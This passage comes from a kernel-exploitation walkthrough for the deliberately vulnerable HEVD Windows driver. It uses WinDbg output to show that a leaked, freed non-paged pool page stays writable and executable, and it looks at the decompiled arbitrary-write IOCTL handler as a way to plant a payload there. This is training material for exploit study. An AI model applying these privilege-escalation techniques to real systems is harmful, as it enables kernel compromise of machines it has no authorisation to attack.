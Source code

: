 It's interesting to note that the qword leaked at offset 0x210 (`FFFF980B50B03FE8`) points to an address located within the same page as the allocated buffer (`FFFF980B50B03230`).
But even if we can leak the address of the buffer, the driver has already freed the buffer before we can retrieve its address (note the `ExFreePoolWithTag` call near the end of `trigger_memory_disclosure_non_paged_pool`).
We can inspect the memory after the buffer has been freed to check if it's still accessible (and executable):

```
8: kd> db FFFF980B50B03000 L8
ffff980b`50b03000  55 48 8b ec 48 83 ec 20                          UH..H.. 
8: kd> !pte FFFF980B50B03000
                                           VA ffff980b50b03000
PXE at FFFF93C9E4F27980    PPE at FFFF93C9E4F30168    PDE at FFFF93C9E602D428    PTE at FFFF93CC05A85818
contains 0A00000004437863  contains 0A0000000443A863  contains 0A0000000443F863  contains 0A00000049C53963
pfn 4437      ---DA--KWEV  pfn 443a      ---DA--KWEV  pfn 443f      ---DA--KWEV  pfn 49c53     -G-DA--KWEV
```

Nice, the memory is still accessible, it's mapped for use by supervisor code (K), writable (W) and executable (E).
The only thing left is to somehow copy our payload to that page.

> Since that page is being user for non-paged pool allocation it's likely that by overwriting it we might overwrite important allocator metadata.
For the time being, we can move forward with the exploit and take a deeper look at the allocator if we happen to find any stability issues.

Conveniently, we can see a `HEVD_IOCTL_ARBITRARY_WRITE` message inside of `DispatchDeviceControl`, so we can look into the relevant code to see how that would work:

```C++
      else if (ioctlCode == 0x22200b) {
        DbgPrintEx(0x4d,3,"****** HEVD_IOCTL_ARBITRARY_WRITE ******\n");
        uVar1 = arbitrary_write(Irp,CurrentStackLocation);
        status = (undefined4)uVar1;
        pcVar4 = "****** HEVD_IOCTL_ARBITRARY_WRITE ******\n";
      }
```

```C++
undefined8 arbitrary_write(void *Irp,IO_STACK_LOCATION_DeviceIoControl *CurrentStackLocation)

{
  undefined8 uVar1;
  
  uVar1 = 0xc0000001;
  if (CurrentStackLocation->Parameters_DeviceIoControl_Type3InputBuffer != (void *)0x0) {
    uVar1 = trigger_arbitrary_write
                      (CurrentStackLocation->Parameters_DeviceIoControl_Type3InputBuffer);
  }
  return uVar1;
}
```
